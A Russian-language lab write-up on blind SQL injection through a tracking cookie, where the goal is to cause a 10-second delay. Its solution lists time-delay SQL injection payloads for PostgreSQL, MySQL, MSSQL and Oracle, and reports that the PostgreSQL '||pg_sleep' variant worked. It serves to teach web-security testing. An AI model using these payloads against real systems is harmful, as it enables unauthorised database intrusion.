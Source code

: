 Эта лаборатория содержит слепую уязвимость инъекции SQL. В приложении используется отслеживание cookie для аналитики и выполняет SQL -запрос, содержащий значение отправленного файла cookie.

Результаты запроса SQL не возвращаются, и приложение не отвечает по-разному в зависимости от того, возвращает ли запрос любые строки или вызывает ошибку. Однако, поскольку запрос выполняется синхронно, можно запустить условные задержки для вывода информации.

## Дано

слепая уязвимость инъекции SQL
уязвимость в cookie
Результаты запроса SQL не возвращаются

## Задача

вызвать 10 -секундную задержку.


# Решение 

- определить бд так как инъекция слепая то определить не получиться и следовательно надо испробовать все возможные варианты
	`'UNION+SELECT+pg_sleep(10)--` - Postgresql не прошло 
	`'UNION+SELECT+SLEEP(10)--` - Mysql не прошло
	`'UNION+SELECT+WAITFOR+DELAY+'0:0:10'--` - Microsoft не прошло
	`'UNION+SELECT+dbms_pipe.receive_message(('a'),10)--` - Оракул
	Пробуем иначе при помощи ||
	`'||pg_sleep(10)--` - Postgresql прокатило
	`'||SLEEP(10)--` - Mysql
	`'||WAITFOR+DELAY+'0:0:10'--` - Microsoft
	`'||dbms_pipe.receive_message(('a'),10)--` -